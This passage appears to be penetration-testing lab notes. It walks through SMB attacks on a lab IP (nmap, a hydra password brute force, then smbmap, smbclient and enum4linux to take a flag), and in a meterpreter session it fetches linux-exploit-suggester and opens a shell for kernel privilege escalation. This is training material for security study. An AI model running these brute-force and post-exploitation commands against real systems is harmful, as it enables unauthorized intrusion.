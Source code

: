 `nmap` `hydra` `smbclient` `smbmap` `enum4linux`

```bash
john@attack> nmap -sV 192.108.122.3
john@attack> hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.108.122.3 smb
john@attack> smbmap -u admin -p password1 -H 192.108.122.3
john@attack> smbclient -L 192.108.122.3 -U admin
john@attack> smbclient //192.108.122.3/shawn -U admin
smb> ls
smb> exit

john@attack> smbclient //192.108.122.3/nancy -U admin
smb> cd dir
smb> get flag
smb> exit
john@attack> cat flag

john@attack> enum4linux -a -u admin -p password1  192.108.122.3
```

### Linux kernel exploits

#### Description

* Kernel exploits on Linux will typically target vulnerabilities in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
* This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
* Privilege escalation on Linux systems will typically follow the following methodology :
  * Identifying kernel vulnerabilities
  * Downloading, compiling and transferring kernel exploits onto the target system.

#### Tools & environment

* **Linux-Exploit-Suggester** : this tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit (https://github.com/mzet-/linux-exploit-suggester).

```bash
meterpreter> sysinfo
meterpreter> getuid
meterpreter> cd /tmp
meterpreter> wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
meterpreter> upload les.sh
meterpreter> shell
/bin/bash -i

www-data@ubuntu> chmod +x les.sh
www-data@ubuntu> ./les.sh
```
